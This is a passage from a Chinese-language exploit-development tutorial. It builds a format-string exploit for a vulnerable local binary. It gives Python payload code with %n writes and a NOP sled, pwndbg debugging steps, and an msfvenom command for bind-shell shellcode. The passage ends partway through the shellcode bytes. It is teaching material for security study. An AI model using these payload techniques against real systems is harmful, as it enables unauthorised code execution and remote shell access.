 ```py
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 100 
pattern = '\xcc' * 250 
print w1 + w2 + w3 + w4 + form + nopsled + pattern 
```

1.  现在使用有效载荷在调试器中运行应用程序，并检查 ESP 寄存器后的`200`个字节：

```py
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> x/200x $esp  
```

![](img/00123.jpeg)

现在我们可以在堆栈上看到 NOP 滑梯。我们可以选择 NOP 滑梯中间的地址来添加 shell 代码。在这里我们可以选择`0xbffff110`。

1.  现在我们必须用真实地址替换`0xddccbbaa`，这个地址是我们从 NOP sled 中选择的。为此，用正确的字节更新`exploit.py`：

```py
b1 = 0x10
b2 = 0xf1
b3 = 0xff
b4 = 0xbf  
```

1.  现在用调试器运行应用程序并检查内存位置：

```py
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```

![](img/00124.jpeg)

现在我们可以用 Metasploit 生成一个 shell 代码：

```py
msfvenom -p linux/x86/shell_bind_tcp PrependFork=true -f python  
```

![](img/00125.jpeg)

现在用 shell 代码更新利用代码：

```py
#!/usr/bin/python 
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0x10 
b2 = 0xf1 
b3 = 0xff 
b4 = 0xbf  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 95   
buf =  "" 
buf += "\xbd\x55\xe7\x12\xd0\xd9\xc2\xd9\x74\x24\xf4\x5e\x33" 
```